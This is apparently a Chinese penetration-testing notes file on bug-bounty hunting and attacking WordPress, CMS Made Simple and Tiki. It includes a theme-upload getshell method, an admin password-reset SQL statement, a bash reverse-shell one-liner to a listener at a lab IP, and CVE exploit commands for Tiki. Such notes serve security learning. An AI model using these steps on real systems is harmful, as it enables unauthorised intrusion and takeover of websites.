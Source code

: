 渗透测试经验分享
========================================

漏洞平台思路
----------------------------------------
- 注册账号
	| 补天、漏洞盒子等。
- 挖掘公益SRC
	| 公益SRC是白帽子随机发现的漏洞提交漏洞盒子平台，平台对漏洞审核后通知企业认领。厂商注册公益SRC成功后即可认领漏洞，公益SRC服务不收取企业任何费用。
- 步骤
	- 网站语言、操作系统、数据库版本
	- 网站有没有用CMS
	- 可能存在的漏洞
	- 确定登录页面

wordpress
----------------------------------------
- 扫描插件和主题是否包含漏洞
- 拿到wp网站登录用户名和密码
	- 可通过上传主题文件来getshell，首先先去官网下载一个主题压缩包，之后将反弹shell的php代码写入shell.php中，然后将其放入压缩包一起上传
	- shell目录：/wp-content/themes/[主题名]/[shell文件名]
- xmlrpc.php
	- 查看支持的方案
	
	::
	
		POST /xmlrpc.php HTTP/1.1
		Host: 192.168.100.106
		User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
		Content-Type: text/xml;charset=UTF-8
		Content-Length: 128

		<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

CMS Made Simple
-----------------------------------------
- 数据库更改密码方法
	+ 前提：登录数据库
	+ ``update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name='sitemask'),''),'admin'))) where username = 'admin';``
- 反弹shell
	+ 前提：登录系统
	+ Extensions/User Defined Tags
		::
			
			vps开启监听
			修改任何一个tag的code，点击apply，点击run
			echo system("bash -c 'bash -i >& /dev/tcp/192.168.100.108/4444 0>&1'");
			
tiki
----------------------------------------
- CVE-2020-15906
	+ 利用条件：tiki<21.2
	+ 免密码登录
		::
		
			https://www.exploit-db.com/exploits/48927
			python 48927.py 192.168.100.103
			打开burpsuite，开启拦截
			浏览器登录admin，输入密码
			bp去掉密码，forward
			
	+ 命令执行
		::
		
			https://srcincite.io/pocs/cve-2021-26119.py.txt
			python cve-2021-26119.py 192.168.100.103 /tiki/ whoami
			

通用型漏洞挖掘
-----------------------------------------
- 发现通用型漏洞
	- 自己发掘站点通用型漏洞
	- 根据cvnd等公布的漏洞进行环境搭建和浮现
- 编写POC
- 挖掘漏洞站点
	- 漏洞站点包含的链接，url特征
	- fofa等站点搜索相似站点